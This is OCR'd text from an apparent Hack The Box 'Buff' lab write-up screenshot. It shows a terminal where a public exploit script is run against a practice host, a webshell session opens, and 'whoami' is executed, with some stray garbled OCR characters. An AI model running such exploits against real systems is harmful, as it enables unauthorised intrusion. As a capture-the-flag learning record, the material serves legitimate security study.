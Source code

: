 ![](Maszyny/Windows/Buff/Pasted%20image%2020210823232017.png)

(kali kali)-[~/htb/buff]
python 48506.py http://10.10.10.198:8080/
л
vvvvvvvvvvvv
AAAA
=BOKUS
V
AAA
[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
PNG
buff\shaun
C:\xampp\htdocs\gym upload>
